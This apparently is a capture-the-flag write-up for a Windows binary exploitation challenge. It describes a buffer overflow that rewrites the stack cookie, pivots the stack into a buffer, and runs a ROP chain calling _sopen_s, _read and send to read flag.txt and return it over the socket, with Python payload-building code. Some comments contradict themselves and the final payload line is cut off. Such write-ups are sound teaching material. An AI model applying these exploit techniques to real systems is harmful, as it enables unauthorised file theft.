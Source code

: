 1. I needed a place to put all this and get the stack pointed there.  The prime candidate was the number buffer.  I just had to get the stack pointed there.  Using the limited buffer overflow, I used a probably awful method of calling "pop ebp; ret" then "mov ebp; pop ebp; ret".  This can be found in many functions, I just used the one from the connection handler function.  This let me set the stack pointer to the top of the number buffer where I positioned the remainder of the ROP chain.

2. I allocated part of my dual/code stack number buffer as string / flag storage.  That would be at offset 0xdc in the buffer.

3. & 4. Using the number-buffer as a dual code/stack segment I used a "add esp, 28; ret" gadget as the return for calls to _sopen_s and _read.  Then positioned the function addresses and their arguments in stack order.

5. The send function call in the connection handler function seemed like a good way to send our flag.  I just used its address and set up the parameters needed to call it.  The only trick was that during the overflow the socket number was stored in the ECX register.  This gets blown away.  Luckily, for some odd reason, the socket number was stored like 30+ times on the stack in back-to-back.  I used the arbitrary read to grab that up.

6. This function call handles writing all our ROP nonsense to the buffer.

7. This payload is the buffer-overflow that kicks everything off.  It makes sure to re-write the stack cookie to prevent exceptions and handles pivoting the stack to the ROP chain living in the number buffer.
```python
# (2)
write(b'D:\\flag.txt\00', where=buf_addr + 0xdc) # store the file name in the number buffer at 0xdc

# (3)
# _sopen_s(int* fp, const char* fname, int oflag, int shflag, int pmode)
open_payload = struct.pack('<I', _sopen_s + _ucrtbase) + # _sopen_s address
	struct.pack('<I', add_esp_28) + # pivot to next function (_open) upon return
	struct.pack('<I', buf_addr + 0xe8) + # where to store the file pointer
	struct.pack('<I', buf_addr + 0xdc) + # file name
	struct.pack('<I', 0x0) + # open for read (O_WRONLY)
	struct.pack('<I', 0x40) + #  (_SH_DENYNO)
	struct.pack('<I', 0x0) + # no permissions 	
	b'\0' * 8 # padding

# (4)
# _read()
read_payload = struct.pack('<I', _read + _ucrtbase) + #  _read address
	struct.pack('<I', add_esp_28) + # pivot to next function (send)
	struct.pack('<I', 0x3) + # the file handle of the open flag.txt file
	struct.pack('<I', buf_addr + 0xdc) + # where to store the flag
	struct.pack('<I', 36) + # the length of the flag
	b'\0' * 16 # padding

# (5)
# send()
send_payload = struct.pack('<I', exe_base + 0x138b) + # return to the listener as normal
	struct.pack('<I', socket) +  # the socket
	struct.pack('<I', buf_addr + 0xdc) + # the flag string stored in the number buffer
	struct.pack('<I', 36) + # the length
	struct.pack('<I', 0x0) # flags

#(6)
# write the assembled rop chain to the buffer
write(open_payload + read_payload + send_payload, where=buf_addr + 64)

#(7)
# the assembled buffer oveflow with cookie and rop stack pivot
payload = b'a' * 0x10 +
	struct.pack('<I', conn_cookie) + # stack cookie (yum)
	b'ZZZZ' + struct.pack('<I', pop_ebp_ret) + # junk
	struct.pack('<I', buf_addr + 60) + # the start of our ROP chain within the number buffer
```